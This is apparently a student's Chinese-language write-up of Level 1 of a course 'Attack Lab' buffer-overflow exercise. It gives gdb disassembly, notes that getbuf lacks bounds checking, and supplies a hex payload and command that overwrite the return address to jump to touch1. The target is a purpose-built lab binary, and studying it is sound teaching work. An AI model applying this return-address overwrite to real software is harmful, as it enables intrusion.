 # Attack Lab

## Part I: Code Injection Attacks

### Level 1
level 1 在 `test` 函式內，需要利用 `test` 內呼叫到的 `getbuf` 函式。
因為 `getbuf` 沒有作邊界檢查，可能造成 buffer overflow 的漏洞。
利用此處 buffer overflow 將 `getbuf` 的 return address 改寫成 `touch1` 函式的地址。

- test()
    ```
    (gdb) disass test
    Dump of assembler code for function test:
    0x0000000000401968 <+0>:	sub    $0x8,%rsp
    0x000000000040196c <+4>:	mov    $0x0,%eax
    0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
    0x0000000000401976 <+14>:	mov    %eax,%edx
    0x0000000000401978 <+16>:	mov    $0x403188,%esi
    0x000000000040197d <+21>:	mov    $0x1,%edi
    0x0000000000401982 <+26>:	mov    $0x0,%eax
    0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
    0x000000000040198c <+36>:	add    $0x8,%rsp
    0x0000000000401990 <+40>:	retq   
    End of assembler dump.
    ```

- getbuf()
    ```
    (gdb) disass getbuf
    Dump of assembler code for function getbuf:
    0x00000000004017a8 <+0>:	sub    $0x28,%rsp
    0x00000000004017ac <+4>:	mov    %rsp,%rdi
    0x00000000004017af <+7>:	callq  0x401a40 <Gets>
    0x00000000004017b4 <+12>:	mov    $0x1,%eax
    0x00000000004017b9 <+17>:	add    $0x28,%rsp
    0x00000000004017bd <+21>:	retq   
    End of assembler dump.
    ```

觀察進入 `getbuf` 時開出的 buffer 空間為 `0x28` (40byte)。
在輸入字串時在 40 byte 以後的內容以 little-endian 的順序寫入 `touch1` 的地址 (0x00000000004017c0)

- ctarget.l1.txt
    ```
    36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 c0 17 40 00 00 00 00 00
    ```

前 40Byte 為任意字串，後面加上 "c0 17 40 00 00 00 00 00" (`touch1` 的地址 - little-endian)

```
./hex2raw < ctarget.l1.txt | ./ctarget -q
```

在 `getbuf` 結束，成功跳轉到 `touch1`

